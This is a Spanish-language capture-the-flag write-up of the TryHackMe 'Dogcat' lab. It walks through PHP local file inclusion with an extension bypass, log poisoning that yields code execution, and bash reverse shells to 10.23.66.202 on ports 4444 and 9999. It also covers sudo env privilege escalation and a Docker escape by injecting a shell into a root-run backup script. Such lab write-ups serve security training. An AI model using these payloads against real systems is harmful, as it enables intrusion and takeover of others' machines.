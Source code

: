 ```yaml
---
title: Dogcat - TryHackMe
layout: post
permalink: /writeups/THM/dogcat
date: 2025-04-07 11:00:00 -0000
description: >
  Write up en español para Dogcat - TryHackMe
pin: false  
toc: true   
math: false 
mermaid: false 
---
```


## Escaneo de puertos

```bash
nmap -sV -Pn -T4 -O 10.10.54.149
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-09 16:16 CEST
Nmap scan report for 10.10.54.149
Host is up (0.049s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Portal web

![alt text](/assets/img/writeups/tryhackme/dogcat/image.png)

Al dar click en **dog** o **cat** nos muestra una imagen en consecuencia.

En el parámetro php que indica dog/cat tenemos un potencial path traversal.

![alt text](/assets/img/writeups/tryhackme/dogcat/image-1.png)

El problema es que parece estar añadiendo la terminación .php al final del parámetro por lo que no encuentra el archivo y por eso tenemos error.

Aprovechando que podemos pasar argumentos antes del parámetro podemos intentar exfiltrar datos a través de un [wrapper PHP](https://medium.com/@robsfromashes/php-wrapper-and-local-file-inclusion-2fb82c891f55).

![alt text](/assets/img/writeups/tryhackme/dogcat/image-2.png)

Aunque el concepto es correcto y debería mostrar el contenido del index.php codificado en base64 indica que no encuentra el archivo.
Bien, el problema es dado por como PHP trata de introducir la extensión .php al final del parámetro.

### ¿Qué es `&ext=` y por qué hace que funcione?

Ese `&ext=` **no forma parte del wrapper**,es un **"bypass" para el parseo del parámetro `view`** en la aplicación.

- En la app PHP, probablemente hay algo como esto:

```php
include($_GET['view'] . '.php');
```

- Si pasas:

```
?view=php://filter/read=convert.base64-encode/resource=etc/passwd
```

PHP lo intentará incluir como:

```
include("php://filter/read=convert.base64-encode/resource=etc/passwd.php");
```

Ese `.php` final rompe el wrapper porque **no puedes añadir `.php` a un stream de filtro como `php://filter`**.

Entonces al añadir `&ext=`, el código está haciendo algo como esto:

```php
include($_GET['view'] . $_GET['ext']);
```

Y puedes entonces controlar **qué extensión se le pone (o incluso ninguna)**. Así:

```
?view=php://filter/read=convert.base64-encode/resource=/var/www/html/index&ext=
```

→ Esto se concatena como:

```php
include("php://filter/read=convert.base64-encode/resource=/var/www/html/index");
```

Y eso **ya es válido**, porque no rompe el esquema del wrapper.

![alt text](/assets/img/writeups/tryhackme/dogcat/image-3.png)

Este archivo no muestra datos demasiado útiles solo que no parece haber usuarios interesantes en el sistema.

![alt text](/assets/img/writeups/tryhackme/dogcat/image-4.png)


> Nota: Parece que el wrapper no es necesario ya que el único problema era la extensión que añadía al final del parámetro por lo que no es necesario codificar en base64.
{: .prompt-info }

![alt text](/assets/img/writeups/tryhackme/dogcat/image-5.png)

Lo importante aquí es que podemos visualizar logs del sistema, lo que hace a la máquina susceptible de un log poisoning.

Para aprovechar esto vamos a inyectar codigo PHP en el user agent de una de nuestras peticiones para crear un parámetro nuevo en el index que nos permita ejecutar código.

![alt text](/assets/img/writeups/tryhackme/dogcat/image-6.png)

Ahora al volver a ejecutar la petición para extraer el contenido de los logs vemos que nos da un error de que no puede ejecutar el comando en blanco, esto es buena señal.

![alt text](/assets/img/writeups/tryhackme/dogcat/image-7.png)

Si le pasamos el parámetro cmd por url.

![alt text](/assets/img/writeups/tryhackme/dogcat/image-8.png)

Tenemos RCE.

## Reverse shell

```bash
bash -c 'bash -i >& /dev/tcp/10.23.66.202/4444 0>&1'
```

Lo codificamos en URL.

```plaintext
bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.23.66.202%2F4444%200%3E%261%27
```

![alt text](/assets/img/writeups/tryhackme/dogcat/image-9.png)

![alt text](/assets/img/writeups/tryhackme/dogcat/image-10.png)

Como la máquina no tiene python para estabilizar un poco la shell ejecutamos:

```bash
script /dev/null -c bash
export TERM=xterm
```

![alt text](/assets/img/writeups/tryhackme/dogcat/image-11.png)

## Escalado de privilegios

Si recordamos en el sistema no hay usuarios creados.

![alt text](/assets/img/writeups/tryhackme/dogcat/image-12.png)

Por lo que vamos directamente a intentar escalar privilegios a root.

Por suerte podemos ejecutar `sudo -`

```bash
www-data@c29ed5a125d4:/var/www/html$ sudo -l
sudo -l
Matching Defaults entries for www-data on c29ed5a125d4:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on c29ed5a125d4:
    (root) NOPASSWD: /usr/bin/env
```

env es una utilidad estándar en Unix que:

- Ejecuta un programa en un entorno modificado.

- Se suele usar para lanzar scripts con el intérprete correcto.

![alt text](/assets/img/writeups/tryhackme/dogcat/image-13.png)

En este caso pues la escalada es bastante sencilla ya que podemos ejecutar el comando `env` con el parámetro `bash` y obtener un shell. Consultamos [GTOBins](https://gtfobins.github.io/gtfobins/env/)

```bash
sudo /usr/bin/env /bin/bash
```

![alt text](/assets/img/writeups/tryhackme/dogcat/image-14.png)

Las tres primeras flags las tenemos aquí.

![alt text](/assets/img/writeups/tryhackme/dogcat/image-15.png)

La última flag es algo "compleja".

Si nos fijamos (además de que lo dice en el reto) el id del host donde somos root es un string id similar a los que genera Docker. Por lo que estamos en un entorno de Docker.

Para escapar podemos navegar a `/opt/backups`.

![alt text](/assets/img/writeups/tryhackme/dogcat/image-16.png)

Encontramos un script que hace un backup completo del contenedor por lo que debe estar siendo ejecutado por el usuario root del host viendo la ruta en la que se encuentra este.

```bash
 echo "bash -i >& /dev/tcp/10.23.66.202/9999 0>&1" >> backup.sh
" > backup.sh >& /dev/tcp/10.23.66.202/9999 0>&1"
``` 

![alt text](/assets/img/writeups/tryhackme/dogcat/image-17.png)

![alt text](/assets/img/writeups/tryhackme/dogcat/image-18.png)


